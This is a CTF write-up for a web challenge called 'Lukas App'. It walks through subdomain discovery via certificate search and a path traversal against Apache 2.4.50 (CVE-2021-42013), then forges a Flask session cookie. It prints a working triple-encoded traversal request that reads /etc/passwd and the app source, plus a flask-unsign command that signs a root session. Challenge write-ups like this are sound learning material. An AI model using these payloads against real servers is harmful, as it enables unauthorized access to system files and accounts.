 # Lukas App

## Description

> After the excellent success of the luca-app we now decided to build our own tracing apps. We still have some technical difficulties but you may still want to have a look: https://lukas-app.de. At least we managed to get the TLS certificates for all hosts!
>
> Hint 1: Read the challenge description carefully. There already is a big hint in it.
>
> Hint 2: There is only a tiny bit of guesswork involved, and it's not hard to find. A lot of teams already found it. Also again: Automated tooling like dirbuster or sqlmap will not help you with this challenge.
>
> Hint 3: We at Lukas App are proud to be running our software in the cloud. We don't even need to care about server updates or weird protocol headers anymore.

## Solution

The contents of https://lukas-app.de are not very interesting. It's only a static site, with a non-working captcha. The web challenges in this CTF don't involve any scanning and brute-forcing, so there's nothing else for us here.

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.51.36 AM.png>)

### Certificate Search

The description said "At least we managed to get the TLS certificates for all hosts!", and the hints point us in that direction, so I decided to do a `crt.sh` certificate search.

![](<../../.gitbook/assets/image (81).png>)

This indeed revealed two additional subdomains! `beta.lukas-app.de` is another web app. There's a login page, but not much else.&#x20;

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.57.41 AM.png>)

I noticed that the logo here is fetched from `https://cdn.lukas-app.de/static/logo.png`. But when visiting this URL, we are actually redirected to another domain: `https://cdn-eu-west.lukas-app.de/static/logo.png`.

### Path Traversal

Looking at the response headers, I immediately noticed that we have hit the jackpot - this server, unlike the others, returned `Server: Apache/2.4.50 (Unix)`, which was vulnerable to a recent path traversal vulnerability (CVE-2021-42013)!

{% embed url="https://www.exploit-db.com/exploits/50406" %}

Using the usual payload (`.%%32%65`), however, gave us a 400 Bad Request. I think this was due to the server using both Nginx (which would have already performed one round of URL decoding) and Apache (which would then receive the URL-decoded path). To overcome this, I had to URL-encode the PoC payload again (a _triple_ URL encoding by now!)

Now we get a different error (403 Forbidden) using `GET /cgi-bin/.../etc/passwd`.

I was stuck here for a while, until I came across some inspiration from [Twitter](https://twitter.com/\_\_mn1\_\_/status/1445655933242134530): instead of `/cgi-bin/` maybe the `/static/` path, where the logo is stored, is an `Alias` to some directory?

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 12.09.16 PM.png>)

I finally got a working path traversal: `GET /static/%25%2532%2565%25%2532%2565%2F%25%2532%2565%25%2532%2565%2Fetc/passwd HTTP/2`

I then read the Apache configuration file (at `/usr/local/apache2/conf/httpd.conf`), which confirmed my hypothesis. Interestingly, the `/static/` URL maps to `/app/static`. Could this be the same directory where the web app is stored?

```
...

Alias "/static" "/app/static"

...
```

Indeed, I was able to read the source code from `/app/app.py`.

```python
#!/usr/bin/env python3

from flask import Flask, session, redirect, url_for, escape, request, render_template
import werkzeug.exceptions
import crypt
import secrets

app = Flask(__name__)
app.secret_key = "secrets.token_bytes(50)"

FLAG = open("/flag.txt").read()

@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."

@app.route("/robots.txt")
def robotstxt():
    return open("robots.txt").read()

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.tpl", msg=request.args.get("msg", ""))

    username = request.form["username"]
    password = request.form["password"]

    # use system logins during beta phase, needs to be moved to database for production use!
    users = dict(x.split(":")[:2] for x in open("/etc/shadow").readlines() if x.split(":")[1][0] != "!")
    if username not in users:
        return redirect("/login?msg=Invalid+credentials")
    if crypt.crypt(password, users[username]) != users[username]:
        return redirect("/login?msg=Invalid+credentials")

    session["username"] = username
    return redirect("/")

@app.errorhandler(werkzeug.exceptions.BadRequest)
def handle_bad_request(e):
    return "/app/app.py:app raised an exception:<br/>" + str(e), 400

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

### Baking Cookies

The final nail in the coffin came from the following programming error in the secret key (it's a string):

```python
app.secret_key = "secrets.token_bytes(50)"
```

We simply need to change our session `username` to `root`, in order to get the flag.

```python
@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."
```

Since the server uses client-side cookies, we can simply sign the Flask cookie with our desired username.

```
$ flask-unsign --sign --cookie "{'username': 'root'}" --secret "secrets.token_bytes(50)"
eyJ1c2VybmFtZSI6InJvb3QifQ.YaORNg.qF6ApxeBVfgNfKnMi5j6FegPqSM
```

Change the session cookie and get the flag!

```
Hello, root!
Have a nice flag: CSR{%79%6f%75%20%63%61%6e%27%74%20%65%73%63%61%70%65%20%74%68%65%20%64%6f%75%62%6c%65%20%64%6f%74%73}
```
